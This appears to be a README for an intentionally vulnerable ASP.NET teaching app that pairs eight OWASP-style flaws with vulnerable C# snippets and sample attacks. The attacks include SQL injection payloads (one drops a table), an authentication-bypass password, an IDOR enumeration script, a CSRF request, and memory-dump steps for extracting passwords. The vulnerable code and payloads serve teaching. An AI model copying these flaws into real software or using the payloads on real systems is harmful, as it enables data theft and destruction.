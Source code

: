 # OWASP 2021 Top 10 Vulnerabilities

## 1. SQL Injection
```csharp
var products = _context.Products
                .FromSqlRaw($"SELECT * FROM Products WHERE Name LIKE '%{query}%'")
                .ToList();
```
Payload examples:
```
%' OR '1'='1'; -- 
%'; DROP TABLE Products; --
%'; DROP TABLE Products; --
```

## 2. Identification and Authentication Failures
```sql
SELECT * FROM Users WHERE Username = '{1}' AND Password = '{2}'
```
Bypass example:
```json
data = {
    "Username": "admin",
    "Password": "' OR '1'='1"
}
```

## 3. Cryptographic Failures
```csharp
user.Password = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(user.Password));
```
If the database is leaked:
```python
for enc in user.Password:
    print(base64.b64decode(enc))
```

## 4. Insecure Direct Object References (IDOR)
```csharp
var product = _context.Products.Find(id);
```
Exploit example:
```python
for i in range(100):
    req = request.get(url + "/Home/ProductDetails/" + str(i))
    print(req.text)
```

## 5. Insecure Design
```csharp
[HttpPost]
public IActionResult AddToCart(int id)
{
    return RedirectToAction("Index");
}
```
Vulnerable to CSRF:
```javascript
fetch("http://localhost:5057/Home/AddToCart", {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({ id: "1" })
});
```

## 6. Security Misconfiguration
Printing detailed error messages to the frontend:
```
MySqlException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '--%'' at line 1
```
Example stack trace:
```
MySqlConnector.Core.ResultSet.ReadResultSetHeaderAsync(IOBehavior ioBehavior) in ResultSet.cs
MySqlConnector.MySqlDataReader.ActivateResultSet(CancellationToken cancellationToken) in MySqlDataReader.cs
...
Microsoft.AspNetCore.Diagnostics.DeveloperExceptionPageMiddleware.Invoke(HttpContext context)
```

## 7. Insecure Binder Configuration
Adding bill data via POST registry.

## 8. Heap Inspection
Collecting a memory dump:
```sh
dotnet-dump collect -p <app-pid>
```
Opening it with WinDbg:
```sh
1. .load C:\Windows\Microsoft.NET\Framework\v4.0.30319\SOS.dll
2. !dumpheap -type System.String
3. .logopen /t c:\path\to\your\file.txt
4. .foreach (obj {!dumpheap -mt <MT of System.String>}) { .printf "\n\nObject: ${obj}\n"; !do ${obj} }
5. .logclose
```
Extracted sensitive data example:
```
Object: 01a2de580e80
Name:        System.String
String:      pass123
```
